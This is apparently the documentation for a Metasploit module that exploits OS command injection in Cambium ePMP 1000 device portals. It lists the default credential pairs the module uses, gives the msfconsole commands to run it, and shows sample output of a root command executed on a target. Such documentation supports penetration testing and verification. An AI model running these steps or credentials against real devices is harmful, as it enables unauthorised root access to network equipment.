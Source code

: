 This module exploits an OS Command Injection vulnerability in Cambium ePMP 1000 (<v2.5) device management portal. It requires any one of the following login credentials - admin/admin, installer/installer, home/home - to execute arbitrary system commands.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/epmp1000_cmd_exec```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/epmp1000_cmd_exec
msf auxiliary(epmp1000_cmd_exec) > set rhosts 1.3.3.7
msf auxiliary(epmp1000_cmd_exec) > set rport 80
msf auxiliary(epmp1000_cmd_exec) > run

[+] 1.3.3.7:80 - Running Cambium ePMP 1000 version 2.2...
[*] 1.3.3.7:80 - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "installer":"installer"
[*] 1.3.3.7:80 - Executing id; pwd
uid=0(root) gid=0(root)
/www/cgi-bin
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
